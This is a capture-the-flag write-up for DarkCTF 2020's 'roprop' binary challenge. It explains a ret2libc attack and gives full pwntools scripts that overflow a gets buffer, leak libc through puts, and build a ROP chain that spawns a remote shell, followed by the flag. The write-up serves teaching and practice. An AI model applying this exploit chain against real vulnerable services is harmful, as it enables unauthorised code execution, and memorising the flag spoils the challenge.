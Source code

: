 # DarkCTF2020:roprop (pwn,313 pts)

### Challenge:

>  We given a 64 bit ELF binary , and we need to do get the shell using gets func and ROPs .
>  We are not given Libc (which is used by server).we also need to find that one

Its a simple ret2libc 

**Exploit plan:**
```
1. Leak the puts_got address using puts_plt 
2. Getting libc from the puts_leak
3. Getting shell 

```
### Leaking puts

```python
from pwn import *

context.arch='amd64'

elf = ELF('./roprop')

p = remote('roprop.darkarmy.xyz',5002)

buf = 'A'*88

rop = ROP('roprop')

puts_plt = elf.plt['puts']

main = elf.symbols['main']

pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]

ret = (rop.find_gadget(['ret']))[0]

puts_got = elf.got['puts']

paylaod1 = buf 
paylaod1 += p64(pop_rdi) 
paylaod1 += p64(puts_got)
paylaod1 += p64(puts_plt)
paylaod1 += p64(main)

p.sendline(paylaod1)

p.recv()

leak = p.recv()[49:56]

puts_leak = u64(leak.strip().ljust(8, "\x00"))

print(hex(puts_leak))
```

We get the puts leak.

### Getting Libc

After getting the address of puts we should search on libc database [website](https://libc.blukat.me/) for the correct libc version that the server is using, download that.

### Exploit

```python


from pwn import *

context.arch='amd64'

elf = ELF('./roprop')

libc = ELF('./libc6_2.27-3ubuntu1.2_amd64.so')

# p = process(elf.path)

p = remote('roprop.darkarmy.xyz',5002)

buf = 'A'*88

rop = ROP('roprop')

puts_plt = elf.plt['puts']

main = elf.symbols['main']

pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]

ret = (rop.find_gadget(['ret']))[0]

puts_got = elf.got['puts']

paylaod1 = buf 
paylaod1 += p64(pop_rdi) 
paylaod1 += p64(puts_got)
paylaod1 += p64(puts_plt)
paylaod1 += p64(main)

p.sendline(paylaod1)

p.recv()

leak = p.recv()[49:56]

puts_leak = u64(leak.strip().ljust(8, "\x00"))

libc.address = puts_leak - libc.symbols['puts']

binsh = next(libc.search("/bin/sh"))

system = libc.sym["system"]

exit = libc.sym["exit"]

payload2 = buf
payload2 += p64(ret) 
payload2 += p64(pop_rdi) 
payload2 += p64(binsh)  
payload2 += p64(system) 
payload2 += p64(exit)

p.clean()
p.sendline(payload2)
p.interactive()
```

**Flag: darkCTF{y0u_r0p_r0p_4nd_w0n}**

